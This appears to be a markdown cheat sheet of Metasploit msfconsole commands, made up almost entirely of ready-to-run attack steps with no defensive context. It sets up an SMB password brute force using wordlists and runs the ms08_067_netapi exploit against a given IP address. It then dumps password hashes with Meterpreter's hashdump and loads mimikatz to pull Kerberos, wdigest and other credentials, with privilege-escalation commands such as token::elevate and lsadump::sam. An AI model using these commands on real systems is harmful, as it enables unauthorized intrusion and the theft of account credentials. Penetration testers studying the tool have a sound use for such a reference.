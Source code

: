 ## msfconsole (msf | metaspolit)

#### General

#### SMB Login
```bash
msfconsole
use auxiliary/scanner/smb/smb_login
set RHOSTS <ip address>
set SMBUSER <username>
set USER_FILE /usr/share/wordlists/custom/usernamelist.txt
set PASS_FILE /usr/share/wordlists/custom/passwordlist.txt
set STOP_ON_SUCCESS true
exploit
```

#### Search

##### Search for SMB Exploits on Windows
`msf > search exploit/windows/smb`

#### Options

##### exploit/windows/smb/ms08_067_netapi Options
`msf exploit(ms08_067_netapi) > show options`

#### Attack

##### Attack SMB for Windows
```bash
msf > use exploit/windows/smb/ms08_067_netapi
msf exploit(ms08_067_netapi) > set RHOST 10.37.129.9
msf exploit(ms08_067_netapi) > set RPORT 445
msf exploit(ms08_067_netapi) > exploit
```

#### meterpreter

##### help
`meterpreter > help`

##### hashdump
`meterpreter > hashdump`

#### mimikatz

##### load mimikatz
`meterpreter > load mimikatz`

##### options

Command | Description
--- | ---
kerberos | Attempt to retrieve kerberos creds
livessp | Attempt to retrieve livessp creds
mimikatz_command | Run a custom command
msv | Attempt to retrieve msv creds (hashes)
ssp | Attempt to retrieve ssp creds
tspkg | Attempt to retrieve tspkg creds
wdigest | Attempt to retrieve wdigest creds

##### Extras

`when in meterpreter: ls, pwd, whoami, get system, get admin`

`lsadump::sam, privilege::debug. token::whoami, token::elevate, process::list`
